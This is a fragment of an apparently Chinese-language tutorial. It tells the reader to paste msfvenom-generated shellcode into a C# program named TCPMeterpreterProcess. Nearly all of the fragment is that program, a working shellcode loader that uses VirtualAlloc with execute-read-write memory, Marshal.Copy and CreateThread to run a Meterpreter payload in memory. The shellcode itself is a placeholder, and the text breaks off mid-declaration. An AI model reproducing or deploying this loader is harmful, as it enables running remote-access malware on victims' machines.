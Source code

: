 然后将`payload.txt`文件中的shellcode代码复制到下面C#代码中

```
using System;
using System.Runtime.InteropServices;
namespace TCPMeterpreterProcess
{
    class Program
    {
        static void Main(string[] args)
        {
            // native function’s compiled code
            // generated with metasploit
            byte[] shellcode = new byte[] { msfvenom生成的 shellcode};
            
            UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length,
MEM_COMMIT, PAGE_EXECUTE_READWRITE);
Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
IntPtr hThread = IntPtr.Zero;
UInt32 threadId = 0;
// prepare data
IntPtr pinfo = IntPtr.Zero;
// execute native code
hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
WaitForSingleObject(hThread, 0xFFFFFFFF);
}
        private static UInt32 MEM_COMMIT = 0x1000;
private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;
[DllImport("kernel32")]
        private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr,
UInt32 size, UInt32 flAllocationType, UInt32 flProtect);
[DllImport("kernel32")]
        private static extern bool VirtualFree(IntPtr lpAddress,
UInt32 dwSize, UInt32 dwFreeType);
[DllImport("kernel32")]
        private static extern IntPtr CreateThread(
UInt32 lpThreadAttributes,
UInt32 dwStackSize,
UInt32 lpStartAddress,
IntPtr param,
UInt32 dwCreationFlags,
ref UInt32 lpThreadId
);
[DllImport("kernel32")]
        private static extern bool CloseHandle(IntPtr handle);
[DllImport("kernel32")]
        private static extern UInt32 WaitForSingleObject(
IntPtr hHandle,
UInt32 dwMilliseconds
);
[DllImport("kernel32")]
        private static extern IntPtr GetModuleHandle(
string moduleName
);
[DllImport("kernel32")]
        private static extern UInt32 GetProcAddress(
IntPtr hModule,
string procName
);
[DllImport("kernel32")]
        private static extern UInt32 LoadLibrary(
string lpFileName
);
[DllImport("kernel32")]
```